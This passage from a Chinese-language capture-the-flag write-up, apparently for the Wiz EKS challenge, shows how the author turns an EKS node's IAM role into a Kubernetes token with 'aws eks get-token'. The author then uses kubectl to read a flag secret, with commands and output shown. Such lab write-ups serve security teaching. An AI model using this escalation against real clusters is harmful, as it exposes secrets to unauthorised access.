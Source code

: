 返回结果提示没有权限。

然后尝试`describe-cluster`命令，该命令至少需要一个“--name”参数，指定集群名称，但是如何获知集群的名称呢？刚好提示1中告诉我们“节点的IAM角色名称的约定模式为：\[集群名称\]- 节点组-节点实例角色”。由“eks-challenge-cluster-nodegroup-NodeInstanceRole”我们可以尝试拆解角色名，大胆猜测其中集群名称为“eks-challenge-cluster”，节点组为“nodegroup”，节点实例角色为“NodeInstanceRole”。

然后执行：

```ruby
root@wiz-eks-challenge:~

An error occurred (AccessDeniedException) when calling the DescribeCluster operation: User: arn:aws:sts::688655246681:assumed-role/eks-challenge-cluster-nodegroup-NodeInstanceRole/i-0cb922c6673973282 is not authorized to perform: eks:DescribeCluster on resource: arn:aws:eks:us-west-1:688655246681:cluster/eks-challenge-cluster
```

返回结果依然提示没有权限。

通过翻阅资料，发现Amazon EKS支持使用IAM向Kubernetes集群提供身份验证（https://docs.aws.amazon.com/zh_cn/eks/latest/userguide/cluster-auth.html）。

因此尝试使用`get-token`创建一个令牌用以访问Kubernetes：

```typescript
root@wiz-eks-challenge:~# aws eks get-token --cluster-name eks-challenge-cluster
{
    "kind": "ExecCredential",
    "apiVersion": "client.authentication.k8s.io/v1beta1",
    "spec": {},
    "status": {
        "expirationTimestamp": "2023-11-13T07:49:07Z",
        "token": "k8s-aws-v1.aH[...]ODU5MGU"
    }
```

返回结果显示有相应地权限。

重新回到题目“你能通过利用 EKS 节点的权限访问服务帐户吗？”服务账户的值存储在secret中，因此我们尝试访问secret：

```kotlin
root@wiz-eks-challenge:~# TOKEN=k8s-aws-v1.aH[...]ODU5MGU
root@wiz-eks-challenge:~# kubectl --token "$TOKEN" get secrets
NAME        TYPE     DATA   AGE
node-flag   Opaque   1      11d

root@wiz-eks-challenge:~# kubectl --token "$TOKEN" get secrets node-flag -o json
{
    "apiVersion": "v1",
    "data": {
        "flag": "d2l6X2Vrc1[...]TURTX3RvX0VLU19jb25ncmF0c30="
    },
    "kind": "Secret",
    "metadata": {
        "creationTimestamp": "2023-11-01T12:27:57Z",
        "name": "node-flag",
        "namespace": "challenge4",
        "resourceVersion": "883574",
        "uid": "26461a29-ec72-40e1-adc7-99128ce664f7"
    },
    "type": "Opaque"
}
```
